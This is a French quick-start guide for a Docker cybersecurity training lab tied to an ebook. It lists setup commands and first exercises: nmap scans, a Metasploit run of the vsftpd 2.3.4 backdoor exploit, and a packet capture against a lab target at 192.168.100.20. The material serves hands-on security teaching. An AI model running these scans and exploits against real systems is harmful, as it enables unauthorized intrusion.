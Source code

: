 # 🚀 Guide de Démarrage Rapide

---

## ⚡ Démarrage en 5 Minutes

### Prérequis
- Docker et Docker Compose installés
- 16 GB RAM minimum
- 50 GB d'espace disque libre

### Étapes

```bash
# 1. Cloner le dépôt
git clone https://github.com/votre-username/cybersecurity-lab-ebook-deliverables.git
cd cybersecurity-lab-ebook-deliverables

# 2. Lancer le lab
docker-compose up -d

# 3. Vérifier que tout fonctionne
docker-compose ps

# 4. Se connecter à Kali
docker exec -it kali-attacker bash

# 5. Tester
nmap -sV 192.168.100.20
```

**Félicitations ! Votre lab est opérationnel ! 🎉**

---

## 🎯 Premiers Tests Recommandés

### Test 1 : Scan Réseau (2 min)
```bash
# Dans Kali
nmap -sn 192.168.100.0/24
nmap -sV -p- 192.168.100.20
```

### Test 2 : Exploitation vsftpd (5 min)
```bash
# Dans Kali
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.100.20
exploit
```

### Test 3 : Capture Trafic (3 min)
```bash
# Dans Kali
tcpdump -i eth0 -w /opt/pcaps/first_capture.pcap host 192.168.100.20 &
curl http://192.168.100.20
killall tcpdump
wireshark /opt/pcaps/first_capture.pcap
```

---

## 📚 Prochaines Étapes

1. ✅ Consulter le README complet : `README.md`
2. ✅ Suivre la checklist de vérification : `checklists/verification_lab.md`
3. ✅ Commencer les exercices de l'ebook
4. ✅ Documenter vos tests avec `templates/rapport_lab_template.md`

---

## 🆘 Aide

**Problème ?** Consultez :
- `checklists/verification_lab.md` → Section Dépannage
- `README.md` → Section Support
- Issues GitHub

**Arrêter le lab :**
```bash
docker-compose down
```

**Redémarrer :**
```bash
docker-compose restart
```

---

## 🔗 Liens Utiles

| Ressource | Lien |
|-----------|------|
| Documentation complète | [README.md](README.md) |
| Résumé des livrables | [LIVRABLES_SUMMARY.md](LIVRABLES_SUMMARY.md) |
| Checklist progression | [checklists/progression_chapitres.md](checklists/progression_chapitres.md) |
| Mapping MITRE | [mitre-attack/mapping_mitre_attack.md](mitre-attack/mapping_mitre_attack.md) |
| Templates rapports | [templates/rapport_lab_template.md](templates/rapport_lab_template.md) |

---

**Bon apprentissage ! 🎓**
